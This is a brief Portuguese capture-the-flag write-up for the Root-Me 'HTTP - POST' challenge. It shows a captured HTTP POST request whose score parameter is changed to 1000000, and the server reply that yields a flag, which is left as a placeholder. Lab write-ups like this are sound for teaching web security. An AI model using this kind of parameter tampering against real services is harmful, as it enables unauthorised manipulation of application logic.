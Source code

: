# HTTP - POST

Ao analisarmos a situação é perceptível que a pagina funciona como um game randomico que é vencido ao bater 1000000 de pontos. É possível capturar a requisição com Burp Suit por exemplo e fazer a alteração do parâmetro:
<pre>POST /web-serveur/ch56/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenge01.root-me.org/web-serveur/ch56/
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Connection: close
Upgrade-Insecure-Requests: 1
score=1000000&generate=Give+a+try%21</pre>

## Resposta:
<pre><p>Wow, 1000000! How did you do that? :o</p><p>Flag to validate the challenge: <strong>(flag_here)</strong></p></pre>
